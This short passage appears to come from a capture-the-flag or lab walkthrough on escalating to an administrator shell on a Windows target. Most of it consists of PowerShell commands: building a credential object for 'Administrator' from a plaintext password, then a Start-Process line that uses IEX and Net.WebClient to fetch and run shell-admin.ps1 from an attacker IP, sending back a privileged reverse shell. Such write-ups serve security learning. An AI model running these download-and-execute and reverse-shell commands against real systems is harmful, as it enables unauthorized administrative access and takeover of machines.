


privileged reverse shell

$password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
• ConvertTo-SecureString: Converts plain text to secure strings.
• -AsPlainText: Specifies a plain text string to convert to a secure string.
• -Force: Confirms that you understand the implications of using the AsPlainText parameter and still want to use it.
Second, create a new object to store these credentials.
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)

Third, we’ll use these credentials to start PowerShell and send a (hopefully privileged) reverse shell back to our attack machine.
In the attack machine, copy the shell.ps1 script we used earlier and save it in the file shell-admin.ps1.


On the target machine, use the credentials to start PowerShell to download the shell-admin.ps1 script, run it and send a reverse shell back to our attack machine.
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.62:5555/shell-admin.ps1')" -Credential $cred

We get a shell with administrator privileges!